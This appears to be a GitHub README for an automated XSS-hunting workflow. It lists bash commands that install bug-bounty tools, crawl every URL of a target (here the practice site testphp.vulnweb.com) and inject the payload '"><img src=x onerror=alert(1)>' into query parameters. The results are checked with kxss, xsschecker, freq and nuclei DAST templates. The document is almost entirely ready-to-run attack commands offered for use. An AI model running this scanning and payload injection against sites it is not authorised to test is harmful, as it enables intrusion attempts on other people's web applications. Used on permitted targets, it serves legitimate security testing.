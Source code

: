 # XSS-OneLiner
Simple One Liner for finding XSS using automation

### Install tools
```bash
git clone https://github.com/rootbakar/bugbounty-toolkit
```
```bash
cd bugbounty-toolkit
```
```bash
chmod +x install_bounty_tools.sh
```
```bash
./install_bounty_tools.sh
```
```bash
go install -v github.com/Emoe/kxss@latest
```
```bash
go install github.com/rix4uni/xsschecker@latest
```
```bash
sudo cp ~/go/bin/kxss ~/go/bin/xsschecker /usr/local/bin
```

### Get All URLs
```bash
echo "testphp.vulnweb.com" | httpx -silent | katana -silent > katana.txt; echo "testphp.vulnweb.com" | httpx -silent | hakrawler -u > hakrawler.txt; echo "testphp.vulnweb.com" | waybackurls > waybackurls.txt; echo "testphp.vulnweb.com" | gau > gau.txt; cat katana.txt hakrawler.txt waybackurls.txt gau.txt | urldedupe -qs | httpx -silent | anew urls.txt
```

### XSS One Liner
**Command 1:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | kxss
```
![image](https://github.com/user-attachments/assets/7141d4af-a977-45dc-9cca-baafae48c606)

**Command 2:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | xsschecker -match '"><img src=x onerror=alert(1)>' -vuln
```
![image](https://github.com/user-attachments/assets/eec47e25-2ba6-4abf-be0f-727675830a53)


**Command 3:**
```bash
cat urls.txt  | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
![image](https://github.com/user-attachments/assets/017f6824-6b56-4d4c-a02d-f8aea95070c9)


**Command 4:**
```bash
cat urls.txt | nuclei -silent -t ~/nuclei-templates/dast/vulnerabilities/xss -dast
```
```bash
nuclei -silent -list urls.txt -t ~/nuclei-templates/dast/vulnerabilities/xss -dast
```
<img width="1440" alt="image" src="https://github.com/user-attachments/assets/c0ec71e7-1d29-41c2-b756-6abdd766f782">



